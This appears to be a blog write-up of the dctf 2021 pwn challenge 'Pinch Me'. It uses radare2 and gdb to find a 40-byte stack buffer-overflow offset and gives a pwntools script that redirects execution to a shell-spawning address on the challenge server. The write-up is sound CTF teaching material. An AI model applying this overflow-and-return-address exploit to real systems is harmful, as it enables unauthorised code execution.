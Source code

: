 ```yaml
---
title: Pinch Me
date: 2020-05-16
excerpt: "'Pinch Me' was a challenge in the Pwn category of dctf 2021"
classes: wide
categories: dctf2021
tags:
  - dctf2021
  - pwn
  - bof
  - pwntools
  - gdb
  - radare2
---
```


![img](/assets/images/ctf/dctf2021-pinchme/0.png)

Taking a look at the file we can see that it's a **64-bit Elf** binary

```
pwnchal: ELF 64-bit LSB executable, x86-64, version 1 (SYSV),
```

Nothing really stands out when analyzing with **radare2**. No win function this time, so let's take a look at the **vuln** function


![img](/assets/images/ctf/dctf2021-pinchme/1.png)

Looks like there's an address that gives us a shell. Let's skip all the checks and just jump straight to that. 

Loading the binary into **gdb** (using gef support), we can start poking at it and try to find the offset

I was having issues with `pattern create/search` so I did it the old fashioned way: sending lots of 'A's and 'B's until something looked neat

Using **gdb with gef** you can use `pi print('A'*100)` to quickly toss a string of characters together

After sending different lengths, I found that **40** was when we started seeing the 'B' characters leak in

`pi print('A'*40 + 'B')`


![img](/assets/images/ctf/dctf2021-pinchme/2.png)

Things we know

1. It's a **64-bit ELF** binary
2. The address we want to jump to is 0x004011a1
3. The offset is 40

Here's my script using **pwntools**

```Python
from pwn import *

p = remote('dctf1-chall-pinch-me.westeurope.azurecontainer.io', 7480)

offset = b'A'* 40
p.recvuntil('dreaming?\n')
p.sendline(offset + p64(0x004011a1))
p.interactive()
```

The `p64(0x004011a1)` function call packs the address in **Little Endian** format, required to be passed, and `p.interactive()` just catches the shell and allows us to send input.


![img](/assets/images/ctf/dctf2021-pinchme/3.png)
